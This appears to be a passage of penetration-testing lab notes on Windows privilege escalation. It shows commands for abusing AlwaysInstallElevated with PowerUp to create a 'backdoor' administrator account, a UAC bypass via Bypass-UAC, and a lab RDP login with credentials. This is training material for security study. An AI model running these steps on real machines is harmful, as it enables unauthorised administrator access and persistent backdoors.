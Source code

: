 ```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

2) Create an .msi file directly on the desktop

```
Import-Module .\PowerUp.ps1
Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

3) UserAdd.msi and create a new user backdoor:T3st@123 under Administrators group

--> Giving it a password that doesn’t meet the password complexity criteria will throw an error

4) Start a CMD as the newly backdoor user

```
runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...
```

### Bypassing UAC

```
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC

```
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```

--> A new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command whoami /all or whoami /priv

Addditional resources worth checking:
https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/
https://node-security.com/posts/breaking-out-of-windows-environments/

## LAB

xfreerdp /v:10.129.205.244 /u:htb-student /p:HTB_@cademy_stdnt!
